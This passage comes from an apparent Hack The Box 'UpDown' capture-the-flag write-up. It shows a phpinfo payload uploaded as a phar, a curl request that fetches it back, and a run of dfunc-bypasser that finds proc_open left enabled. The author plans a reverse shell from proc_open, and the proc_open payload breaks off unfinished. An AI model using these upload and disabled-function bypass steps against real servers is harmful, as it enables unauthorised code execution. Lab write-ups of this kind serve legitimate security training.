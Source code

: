 3. Lets look at `phpinfo()` to see why
	```
	# Payload
	<?php
	phpinfo();
	?>
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
	![]({{ page.img_path }}Pasted%20image%2020221024181741.png)
	> A bunch of command execution functions are disabled `system(), passthru(), shell_exec(), popen(), fsockopen()`.
	{: .prompt-info }
4. Lets find out if we can bypass the restrictions w/ [`dfunc-bypasser`](https://github.com/teambi0s/dfunc-bypasser)
	1. Download `phpinfo` file
		```
		┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/exploit]
		└─# curl http://dev.siteisup.htb/uploads/dd2f884d6ca7dba024fa145f8b5b258b/exploit.phar -H "Special-Dev: only4dev" -H "Host: dev.siteisup.htb" > phpinfo.php
		```
	2. Run `dfunc-bypasser`
		```
		┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/exploit]
		└─# python dfunc-bypasser.py --file phpinfo.php
		
		Please add the following functions in your disable_functions option:
		proc_open
		If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
		```
		>  `proc_open` - we can use this to invoke a reverse shell !
		{: .prompt-info }
5. Create our payload - [Source](https://www.sitepoint.com/proc-open-communicate-with-the-outside-world/)
	```
	<?php
	// descriptor array
	$desc = array(
	    0 => array('pipe', 'r'), // 0 is STDIN for process
	    1 => array('pipe', 'w'), // 1 is STDOUT for process
	    2 => array('file', '/tmp/error-output.txt', 'a') // 2 is STDERR for process
	);
	